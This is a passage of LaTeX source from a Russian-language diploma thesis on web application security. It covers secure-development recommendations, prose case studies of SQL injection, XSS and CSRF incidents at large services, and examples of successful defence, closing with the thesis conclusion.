	 	\item \textbf{Static Application Security Testing (SAST):} SAST-инструменты анализируют исходный код веб-приложения на наличие уязвимостей. 
	 	\item \textbf{Dynamic Application Security Testing (DAST):}  DAST-инструменты анализируют работающее веб-приложение на наличие уязвимостей. 
	 	\item \textbf{Runtime Application Self-Protection (RASP):} RASP-инструменты работают внутри веб-приложения и обнаруживают и блокируют атаки в режиме реального времени. 
	 \end{enumerate}
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 				
	 
	 \section{Рекомендации для обеспечения общей безопасности веб-приложений}
	 
	 Обеспечение безопасности веб-приложений – это непрерывный процесс, требующий комплексного подхода. Следующие рекомендации помогут улучшить общую безопасность веб-приложений:
	 
	 \begin{itemize}
	 	\item \textbf{Безопасность по умолчанию:} Разрабатывайте приложения с учётом безопасности с самого начала. Используйте безопасные настройки по умолчанию и ограничивайте доступ к данным и функциям.
	 	\item \textbf{Минимальные привилегии:} Предоставляйте пользователям и процессам только те права доступа, которые необходимы для выполнения их задач.
	 	\item \textbf{Защита от ошибок:} Предполагайте, что ошибки могут возникнуть, и разрабатывайте приложения таким образом, чтобы они были устойчивы к сбоям и атакам.
	 	\item \textbf{Оборона в глубину:} Используйте несколько уровней защиты, чтобы усложнить злоумышленникам задачу по взлому приложения.
	 	\item \textbf{Не доверяйте вводу пользователя:} Валидируйте и фильтруйте все данные, полученные от пользователя, чтобы предотвратить инъекционные атаки.
	 	\item \textbf{Используйте безопасные протоколы:} Используйте HTTPS для защиты данных, передаваемых между клиентом и сервером.
	 	\item \textbf{Шифруйте конфиденциальные данные:} Шифруйте конфиденциальные данные, такие как пароли и данные кредитных карт, чтобы защитить их от несанкционированного доступа.
	 \end{itemize}
	 
	 \subsection{Управление уязвимостями}
	 
	 \begin{itemize}
	 	\item \textbf{Регулярно сканируйте приложения на наличие уязвимостей:} Используйте сканеры уязвимостей для обнаружения потенциальных уязвимостей в веб-приложениях.
	 	\item \textbf{Своевременно обновляйте программное обеспечение:} Устанавливайте обновления безопасности для операционной системы, веб-сервера, приложений и библиотек.
	 	\item \textbf{Используйте систему управления уязвимостями:} Система управления уязвимостями помогает отслеживать, приоритизировать и устранять уязвимости.
	 \end{itemize}
	 
	 \subsection{Аутентификация и авторизация}
	 
	 \begin{itemize}
	 	\item \textbf{Используйте надежные методы аутентификации:} Используйте надёжные пароли, многофакторную аутентификацию и другие методы для защиты учётных записей пользователей.
	 	\item \textbf{Ограничивайте доступ к функциям:} Предоставляйте пользователям доступ только к тем функциям, которые необходимы для выполнения их задач.
	 	\item \textbf{Используйте контроль доступа на основе ролей:} Контроль доступа на основе ролей помогает ограничить доступ к данным и функциям на основе ролей пользователей. 
	 \end{itemize}
	 
	 \subsection{Защита от вредоносного ПО}
	 
	 \begin{itemize}
	 	\item \textbf{Используйте антивирусное программное обеспечение:} Антивирусное программное обеспечение помогает обнаруживать и удалять вредоносное ПО.
	 	\item \textbf{Регулярно сканируйте системы на наличие вредоносного ПО:} Регулярное сканирование помогает выявить вредоносное ПО, которое могло проникнуть в систему.
	 	\item \textbf{Обучайте пользователей основам безопасности:} Обучайте пользователей распознавать фишинговые письма, вредоносные ссылки и другие угрозы.
	 \end{itemize}
	 
	 \subsection{Мониторинг и ведение журналов}
	 
	 \begin{itemize}
	 	\item \textbf{Мониторьте активность приложений:} Мониторинг активности приложений помогает выявить подозрительную активность и атаки. 
	 	\item \textbf{Ведите журналы событий безопасности:} Журналы событий безопасности помогают расследовать инциденты и выявлять причины уязвимостей.
	 	\item \textbf{Анализируйте журналы на наличие признаков атак:} Анализ журналов помогает выявить атаки, которые могли быть пропущены другими системами безопасности.
	 \end{itemize}
	 
	 \subsection{Резервное копирование и восстановление}
	 
	 \begin{itemize}
	 	\item \textbf{Регулярно создавайте резервные копии данных:} Резервные копии данных помогут восстановить приложения и данные в случае атаки или сбоя.
	 	\item \textbf{Храните резервные копии в безопасном месте:} Храните резервные копии данных в отдельном месте от основного хранилища, чтобы защитить их от атак и стихийных бедствий.
	 	\item \textbf{Регулярно тестируйте процесс восстановления:} Регулярное тестирование процесса восстановления поможет убедиться, что он работает должным образом.
	 \end{itemize}
	 
	 
	 				
	 				
	 
	 
	 
	  
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \chapter{Конкретные случаи и анализ приложений}
	 
	 \section{Анализ конкретных случаев уязвимостей веб-приложений}
	 
	 В данном разделе мы погрузимся в реальные примеры уязвимостей веб-приложений, исследуя методы и инструменты, которые были использованы для их обнаружения и устранения. Также будут представлены примеры успешной защиты и преодоления таких угроз.
	 
	 \subsection{Инъекции SQL: Утечка данных пользователей Fortnite}
	 
	 \textbf{Описание случая:} В 2019 году исследователь безопасности Check Point обнаружил уязвимость к SQL-инъекции в системе входа Epic Games, которая использовалась для Fortnite и других игр.  Злоумышленники могли получить доступ к учетным записям пользователей, включая личную информацию и данные кредитных карт. \cite{Fortnite_attack}
	 
	 \textbf{Анализ:} Уязвимость была обнаружена в одном из поддоменов Epic Games, который использовался для обработки входа пользователей через социальные сети.  Злоумышленник мог внедрить вредоносный SQL-код через токен аутентификации, что позволяло ему получить доступ к базе данных пользователей.
	 
	 \textbf{Методы обнаружения:} Уязвимость была обнаружена исследователем безопасности при ручном тестировании на проникновение. Для обнаружения SQL-инъекций используются:
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Сканеры уязвимостей:} Автоматизированные инструменты для поиска известных уязвимостей в веб-приложениях.
	 	\item \textbf{Ручное тестирование на проникновение:} Проверка форм и других точек ввода данных на наличие уязвимостей.
	 	\item \textbf{Анализ исходного кода:} Поиск уязвимостей в коде приложения, связанных с обработкой пользовательского ввода.
	 \end{enumerate}
	 
	 \textbf{Методы предотвращения:} Epic Games устранила уязвимость путем исправления кода и внедрения дополнительных мер безопасности, таких как валидация пользовательского ввода и использование параметризованных запросов.
	 
	 \subsection{Межсайтовый скриптинг (XSS): Атака на Twitch}
	 
	 \textbf{Описание случая:} В 2019 году Twitch подвергся XSS-атаке, которая позволила злоумышленникам украсть токены аутентификации пользователей.  Атака была проведена через уязвимость в системе чата Twitch. \cite{Twich_attack}
	 
	 \textbf{Анализ:} Злоумышленник внедрил вредоносный JavaScript-код в сообщение чата, который при просмотре другими пользователями выполнялся в их браузерах.  Код крал токены аутентификации, которые затем могли быть использованы для доступа к учетным записям пользователей. 
	 
	 \textbf{Методы обнаружения:} Атака была обнаружена службой безопасности Twitch. Для обнаружения XSS-уязвимостей используются:
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Ручное тестирование на проникновение:} Проверка форм и других точек ввода данных на наличие уязвимостей.
	 	\item \textbf{Анализ исходного кода:} Поиск уязвимостей в коде приложения, связанных с обработкой пользовательского ввода.
	 	\item \textbf{Использование инструментов анализа JavaScript:} Обнаружение подозрительного кода.
	 	\item \textbf{Мониторинг сообщений чата:}  Поиск подозрительной активности и сообщений.
	 \end{enumerate}
	 
	 \textbf{Методы предотвращения:} Twitch устранила уязвимость путем исправления кода и внедрения дополнительных мер безопасности, таких как валидация и кодирование пользовательского ввода, а также использование Content Security Policy (CSP).
	 
	 \subsection{Подделка межсайтовых запросов (CSRF): Атака на TikTok}
	 
	 \textbf{Описание случая:} В 2020 году исследователь безопасности обнаружил уязвимость к CSRF-атаке в TikTok, которая позволяла злоумышленникам выполнять действия от имени пользователя без его ведома.  Злоумышленник мог изменить настройки учетной записи пользователя, опубликовать видео или отправить сообщения. \cite{TikTok_attack}
	 
	 \textbf{Анализ:} Уязвимость заключалась в том, что некоторые запросы на изменение настроек учетной записи не имели  защиты от CSRF-атак.  Злоумышленник мог создать вредоносную веб-страницу, которая при посещении пользователем автоматически отправляла запрос на изменение настроек.
	 
	 \textbf{Методы обнаружения:} Уязвимость была обнаружена исследователем безопасности при ручном тестировании на проникновение. Для обнаружения CSRF-уязвимостей используются:
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Ручное тестирование на проникновение:} Анализ функций приложения на наличие уязвимостей к CSRF-атакам.
	 	\item \textbf{Анализ исходного кода:} Проверка наличия токенов Anti-CSRF в формах и других элементах, которые отправляют запросы на сервер.
	 	\item \textbf{Использование автоматизированных инструментов CSRF:} Сканирование веб-приложений на наличие уязвимостей к CSRF-атакам. 
	 \end{enumerate}
	 
	 \textbf{Методы предотвращения:} TikTok устранила уязвимость путем внедрения токенов Anti-CSRF во все формы изменения настроек учетной записи. 
	 
	 
	 \subsection{Выводы}
	 
	 Анализ этих реальных случаев демонстрирует важность комплексного подхода к безопасности веб-приложений. Уязвимости могут привести к серьезным последствиям, таким как утечка данных, финансовые потери и ущерб репутации. 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Анализ методов и инструментов, примененных для их обнаружения и предотвращения}
	 
	 Крупные сервисы, несмотря на их ресурсы и опыт, не застрахованы от атак. Причины возникновения уязвимостей могут быть различными: халатность, нерасторопность, недостаточный контроль и прочее. И хотя уязвимости в конечном итоге устраняются, последствия их эксплуатации могут быть огромными.
	 
	 \bigskip
	 
	 \textbf{Современная безопасность – это непрерывный, сложный и многогранный процесс, в котором участвуют:}
	 
	 \begin{itemize}
	 	\item \textbf{Разработчики:} Они играют ключевую роль в создании безопасного кода, применяя лучшие практики и используя надежные инструменты. 
	 	\item \textbf{Пользователи:} Осведомленность о рисках и соблюдение мер предосторожности, таких как использование надежных паролей и осторожность при открытии ссылок, значительно снижают вероятность успешной атаки.
	 	\item \textbf{Пентестеры:} Эти специалисты имитируют действия злоумышленников, выявляя уязвимости до того, как их смогут использовать реальные преступники. 
	 	\item \textbf{Специальные инструменты:} Сканеры уязвимостей, веб-файрволлы, системы анализа исходного кода и другие инструменты помогают автоматизировать обнаружение и предотвращение уязвимостей.
	 \end{itemize}
	 
	 \bigskip
	 
	 Только комплексный подход, объединяющий усилия всех участников процесса, способен обеспечить надежную защиту веб-приложений.  Постоянное обучение, совершенствование методов и инструментов – это залог успеха в борьбе с киберугрозами.
	 
	 
	 
	 \section{Примеры успешной защиты и преодоления уязвимостей}
	 
	 Рассмотрим несколько реальных примеров, иллюстрирующих успешное применение методов и инструментов для защиты веб-приложений:
	 
	 \subsection{Исправление уязвимости в OpenSSL (Heartbleed)}
	 
	 В 2014 году была обнаружена серьезная уязвимость в библиотеке OpenSSL, известная как Heartbleed.  Она позволяла злоумышленникам получить доступ к конфиденциальной информации, хранящейся в памяти сервера, включая пароли, ключи шифрования и личные данные.  Уязвимость была быстро исправлена разработчиками OpenSSL, и многие организации, такие как Google, Facebook и Yahoo!, незамедлительно обновили свои системы, чтобы предотвратить атаки.  Этот случай подчеркивает важность своевременного обновления программного обеспечения и быстрого реагирования на обнаружение уязвимостей.\cite{OpenSSL_anti_attack}
	 
	 \subsection{Защита от атак DDoS на GitHub}
	 
	 В 2018 году GitHub столкнулся с крупнейшей DDoS-атакой в истории, пиковая мощность которой достигла 1.35 терабит в секунду.  Атака была успешно отражена благодаря использованию распределенной сети доставки контента (CDN) Akamai Prolexic, которая поглотила и рассеяла вредоносный трафик.  GitHub также применил дополнительные меры, такие как фильтрация трафика и масштабирование инфраструктуры, чтобы обеспечить доступность своих сервисов.  Этот пример демонстрирует важность использования специализированных решений для защиты от DDoS-атак и готовности к масштабным инцидентам.\cite{Github_anti_attack}
	 
	 \subsection{Cloudflare и защита от ботнетов}
	 
	 Cloudflare, ведущий провайдер CDN и услуг по защите веб-сайтов, постоянно сталкивается с угрозой ботнетов, которые используются для проведения DDoS-атак и других вредоносных действий.  Компания использует комбинацию технологий, включая машинное обучение, анализ поведения и репутационные базы данных, чтобы эффективно выявлять и блокировать бот-трафик.\cite{Cloudflare_anti_attack_1}  Например, в 2022 году Cloudflare успешно отразил DDoS-атаку, организованную ботнетом из 5 тысяч устройств, защитив своего клиента от простоя и финансовых потерь.\cite{Cloudflare_anti_attack_2}
	 
	 \subsection{Shopify и предотвращение утечек данных}
	 
	 Shopify, популярная платформа электронной коммерции, уделяет большое внимание безопасности данных своих пользователей.  Компания применяет строгие меры безопасности, такие как шифрование данных, многофакторная аутентификация и регулярные аудиты безопасности, чтобы предотвратить утечки данных.  В 2020 году Shopify столкнулся с инцидентом, в котором два сотрудника службы поддержки получили несанкционированный доступ к данным клиентов.  Компания оперативно отреагировала на инцидент, уволила сотрудников, уведомила пострадавших клиентов и приняла дополнительные меры для усиления безопасности.\cite{Shopify_anti_attack}
	 
	 
	 
	 
	 		
	 
	 
	 
	 
	 
	 
	 \section{Рекомендации для разработчиков веб-приложений и применение полученных знаний}
	 
	 Разработка безопасных веб-приложений требует комплексного подхода и постоянного внимания к вопросам безопасности. Вот несколько рекомендаций для разработчиков:
	 
	 \subsection{Безопасное программирование}
	 
	 \begin{itemize}
	 	\item \textbf{Валидация и кодирование пользовательского ввода:} Всегда проверяйте и кодируйте пользовательский ввод, чтобы предотвратить инъекции SQL, XSS и другие атаки, основанные на внедрении кода.
	 	\item \textbf{Использование параметризованных запросов:} При работе с базами данных используйте параметризованные запросы вместо конкатенации строк, чтобы предотвратить инъекции SQL.
	 	\item \textbf{Управление сессиями:} Используйте безопасные методы управления сессиями, такие как использование случайных идентификаторов сессий и защита от фиксации сессий.
	 	\item \textbf{Защита от CSRF-атак:} Используйте токены Anti-CSRF, чтобы предотвратить подделку запросов.
	 	\item \textbf{Контроль доступа:} Реализуйте строгий контроль доступа, чтобы ограничить доступ к данным и функциям приложения только авторизованным пользователям.
	 	\item \textbf{Шифрование данных:} Шифруйте конфиденциальные данные, такие как пароли и номера кредитных карт, чтобы защитить их в случае утечки.
	 	\item \textbf{Обновление программного обеспечения:} Регулярно обновляйте используемые библиотеки и фреймворки, чтобы устранить известные уязвимости.
	 \end{itemize}
	 
	 \subsection{Тестирование безопасности}
	 
	 \begin{itemize}
	 	\item \textbf{Сканирование уязвимостей:} Регулярно используйте сканеры уязвимостей для обнаружения потенциальных проблем безопасности.
	 	\item \textbf{Ручное тестирование на проникновение:} Проводите ручное тестирование на проникновение для выявления сложных уязвимостей, которые не могут быть обнаружены автоматизированными инструментами.
	 	\item \textbf{Анализ исходного кода:} Регулярно проводите анализ исходного кода на наличие уязвимостей.
	 \end{itemize}
	 
	 \subsection{Обучение и осведомленность}
	 
	 \begin{itemize}
	 	\item \textbf{Обучайте команду разработки:} Обучайте свою команду разработки принципам безопасного программирования и последним угрозам безопасности.
	 	\item \textbf{Будьте в курсе последних тенденций безопасности:} Следите за последними тенденциями безопасности и новыми уязвимостями.
	 \end{itemize}
	 
	 \subsection{Применение полученных знаний}
	 
	 Знания о безопасности веб-приложений должны быть применены на практике:
	 
	 \begin{itemize}
	 	\item \textbf{Внедрение безопасных практик разработки:}  Внедрите безопасные практики разработки в свой рабочий процесс.
	 	\item \textbf{Использование инструментов безопасности:}  Используйте инструменты безопасности, такие как сканеры уязвимостей и WAF, для защиты своих приложений.
	 	\item \textbf{Сотрудничество с экспертами по безопасности:}  Сотрудничайте с экспертами по безопасности, чтобы получить помощь в оценке и улучшении безопасности ваших приложений.
	 \end{itemize}
	 
	 \subsection{Заключение}
	 
	 Безопасность веб-приложений – это непрерывный процесс, требующий постоянного внимания и усилий.  Следуя рекомендациям, изложенным в этой главе, разработчики могут создать более безопасные веб-приложения и защитить своих пользователей от киберугроз.
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	
	
	
	
	
	
	
	
	
	\chapternonum{Заключение}
	
	В данной дипломной работе был проведен комплексный анализ уязвимостей веб-приложений, представляющих собой критическую угрозу безопасности информации в современном цифровом мире. 
	
	В ходе исследования были детально рассмотрены наиболее распространенные типы уязвимостей, включая инъекции SQL, межсайтовый скриптинг (XSS), подделку межсайтовых запросов (CSRF), а также другие виды уязвимостей, такие как недостаточная аутентификация, утечка информации и недостаточная авторизация.  
	
	Особое внимание было уделено анализу причин возникновения этих уязвимостей, их потенциальным последствиям для веб-приложений и баз данных, а также методам их обнаружения и предотвращения. Были представлены  эффективные инструменты и техники защиты, позволяющие обеспечить безопасность веб-приложений на различных уровнях.
	
	Практическая значимость работы подтверждается анализом конкретных случаев уязвимостей, выявленных в реальных веб-приложениях. Приведены примеры успешного противодействия атакам, а также даны рекомендации разработчикам по предотвращению возникновения подобных уязвимостей в будущем. 
	
	Полученные результаты исследования подчеркивают необходимость комплексного подхода к обеспечению безопасности веб-приложений, включающего в себя не только применение современных инструментов и технологий, но и строгое следование рекомендациям по безопасному программированию и управлению веб-ресурсами.
	
	Дальнейшие исследования в этой области могут быть направлены на изучение новых типов уязвимостей, разработку более совершенных методов их обнаружения и предотвращения, а также на создание комплексных систем безопасности, адаптированных к специфике различных веб-приложений.
	
	
	
	
	
	
	% В заключении подводятся итоги выполненной работы, рассказывается о~том, что удалось и~что не~удалось сделать, описываются перспективы продолжения исследований.
	\renewcommand\bibname{Список литературы}
	\bibliographystyle{ugost2003}
	\bibliography{bibliography_diplom}
	
	
	
	% Конец документа
\end{document}